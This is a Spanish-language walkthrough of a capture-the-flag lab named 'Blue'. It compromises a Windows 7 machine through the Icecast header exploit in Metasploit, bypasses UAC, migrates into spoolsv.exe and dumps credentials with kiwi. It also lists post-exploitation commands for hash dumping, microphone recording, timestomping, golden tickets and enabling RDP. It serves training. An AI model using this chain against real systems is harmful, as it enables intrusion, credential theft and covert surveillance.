

# Blue

Implementar y piratear una máquina Windows, explotando un servidor multimedia muy poco seguro.

## 1. RECON

Escaneamos los puertos con NMAP.

```bash

nmap <IP_MAQUINA>

```

Comprobamos que hay varios puertos abiertos pero el que nos interesa es el puerto **3389**.


Para completar la siguiente tarea nos pide que identifiquemos el servicio que se esta ejecutando en el puerto 8000.

Vuelvo a realizar nmap pero con -sV (Service Version), para que asi nos de la informacion para completar la tarea.

```bash

nmap <IP_MAQUINA>

```


El servicio es **Icecast**.

Aprovechamos el nmap realizado antes para ver el nombre el host que es lo que nos pide en la siguiente tarea.

Lo identifico en la parte de abajo de la captura: **DARK-PC**

## 2. GAIN ACCESS

Pasamos a investigar icecast. Nos dan un enlace para ver informacion sobre el servicio, en este enlace encontramos el nivel de impacto (**6.4**) y el numero de CVE (**CVE-2004-1561**).


Para realizar las siguientes tareas usaremos metasploit.

Lo iniciamos:

```bash 

sudo msfconsole

```


Hacemos un search a icecast.  

```bash 

search icecast

```

Vemos que la ruta del modulo es **exploit/windows/http/icecast_header**


Hacemos use 0 para seleccionarlo.

```bash 

use 0

```


Vemos las opciones del modulo:

```bash 

show options

```


Debemos rellenar RHOSTS con la ip de la maquina y comprobamos que lhost coincide con nuestra ip (tun0).

```bash 

set rhosts <IP_MÁQUINA>

```


## 3. ESCALATE

Al ejecutar el exploit comprobamos que estamos en una shell **meterpreter**.

```bash 

exploit

```


Para ver el usuario que esta usando icecast, usamos getuid.

```bash 

getuid

```

Comprobamos que el usuario es **DARK**.


Lo siguiente es comprobar que build de windows usa, para ello ejecutamos sysinfo.

```bash 

sysinfo

```

La build es **7601**


Tambien nos da informacion sobre la arquitectura que es **x64**.

Lo siguiente sera ejecutar el comando que nos piden en la practica. 

```bash 

run post/multi/recon/local_exploit_suggester

```


La siguiente tarea nos indica que debemos identificar la ruta del primer exploit.

He probado con el primero, pero no funciona, pero probando con el segundo nos da respuesta correcta.

**exploit/windows/local/bypassuac_eventvwr**


Dejamos la sesion en segundo plano con CTRL + Z.

Cambiamos al modulo del exploit q vimos anteriormente.


```bash 

use exploit/windows/local/bypassuac_eventvwr

```


Comprobamos las opciones, debemos añadir el numero de la sesion que dejamos en segundo plano y comprobar el lhost.


Una vez bien rellenados los 2 parametros hacemos run.

```bash 

run

```

Una vez dentro, ejecutamos el comando que nos dice la tarea.

```bash 

getprivs

```


El permiso que nos deja tener posesion de archivos es **SeTakeOwnershipPrivilege**

## 4. LOOTING

Ejecutamos ps para ver los procesos.

```bash 

ps

```


En nuestra tarea nos dice que vamos a interactuar con lsass debemos estar en un proceso que tenga los mismos permisos y la misma arquitectura que este.

Nos habla del servicio de impresora asi que el proceso es spoolsv.exe

```bash 

migrate -N spoolsv.exe

```


Verificamos que usuario somos con getuid. 

```bash 

getuid

```

Comprobamos que el usuario es **NT AUTHORITY\SYSTEM**


Ahora, siguiendo los pasos de la practica ejecutamos el comando load kiwi (dumping de contraseñas).

```bash 

load kiwi

```


Hacemos help para ver los comandos de kiwi.

```bash 

help

```

El comando que nos da todas las credenciales es **creds_all**


Si ejecutamos creds_all comprobamos que la contraseña del usuario DARK es **Password01!**


## 5. POST-EXPLOITATION

Para la parte de post-explotacion usaremos el comando help y ahi encontraremos los comandos que nos pide para realizar las tareas.

Leemos las descripciones para comprobar que es el comando que nos pide.

Comando para volcar los hashes: **hashdump**


Ver el escritorio remoto del usuario: **screenshare**


Grabar microfono conectado al sistema: **record_mic**



Modificar marcas de tiempo de los archivos del sistema: **timestomp**


Autenticarnos en cualquier lugar ("Ticket de oro"): **golden_tiket_create**


Por ultimo, tal y como nos dice la practica ejecutamos el comando para activar RDP.

```bash 

run post/windows/manage/enable_rdp

```


